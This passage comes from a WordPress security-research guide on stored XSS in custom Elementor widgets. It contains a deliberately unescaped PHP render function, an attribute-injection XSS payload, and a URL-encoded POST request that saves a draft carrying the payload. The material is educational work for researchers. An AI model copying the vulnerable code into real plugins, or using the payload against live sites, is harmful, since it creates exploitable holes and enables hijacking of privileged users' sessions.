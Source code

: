 Developers of plugins and themes can register their custom Elememtor widget using the [`elementor/widgets/register`](https://developers.elementor.com/docs/managers/registering-widgets/) hook. This [Simple Example](https://developers.elementor.com/docs/widgets/simple-example/) demonstrates how to create a simple custom Elementor widget.

In Elementor widgets, they usually use `settings` naming instead of attributes, however, both are similar value features that can be set from each of the Elementor widget configurations.

Let's modify the `render` function from the above example implementation to test for XSS:

```php
protected function render() {

    $settings = $this->get_settings_for_display();
    echo sprintf(
        '<a href="%s">only for testing purpose</a>',
        $settings['url']
    );
}
```

Similar to the Shortcode XSS, by default, the value from the `get_settings_for_display` function doesn't escape characters like single-quote and double-quote but it will sanitize a supplied HTML tag. To exploit this, the Contributor+ role user simply needs to create a drafted post with a customized Elementow widget setting configuration and send the preview link to other privileged users to trigger the XSS:

Example XSS payload for the embed URL:

```json
https://test.com" onfocus=alert(document.domain) autofocus="
```

Example POST body request when updating the post or saving the drafted post:

```json
{"save_builder"%3a{"action"%3a"save_builder","data"%3a{"status"%3a"draft","elements"%3a[{"id"%3a"17d90c0","elType"%3a"container","isInner"%3afalse,"isLocked"%3afalse,"settings"%3a{},"elements"%3a[{"id"%3a"30247fe","elType"%3a"widget","isInner"%3afalse,"isLocked"%3afalse,"settings"%3a{"url"%3a"https%3a//test.com\"+onfocus%3dalert(document.domain)+autofocus%3d\""},"elements"%3a[],"title"%3a"oEmbed","categories"%3a["general"],"keywords"%3a["oembed","url","link"],"icon"%3a"eicon-code","widgetType"%3a"oembed","hideOnSearch"%3afalse}]}],"settings"%3a{"post_title"%3a"Elementor+%2344","post_status"%3a"draft"}}}}
```

For security researchers, we recommend just searching for the `elementor/widgets/register` and `render()` strings to identify if a plugin or theme has a custom Elementor widget implementation.

Below are some of the findings related to Contributor+ XSS:

- [Authenticated Stored XSS in WooCommerce and Jetpack Plugin](https://patchstack.com/articles/authenticated-stored-xss-in-woocommerce-and-jetpack-plugin/)
- [Arbitrary Attachment Render to XSS in Elementor Plugin](https://patchstack.com/articles/arbitrary-attachment-render-to-xss-in-elementor-plugin/)
- [WordPress Core 6.3.2 Security Update - Technical Advisory](https://patchstack.com/articles/wordpress-core-6-3-2-security-update-technical-advisory/)

## Reflected XSS
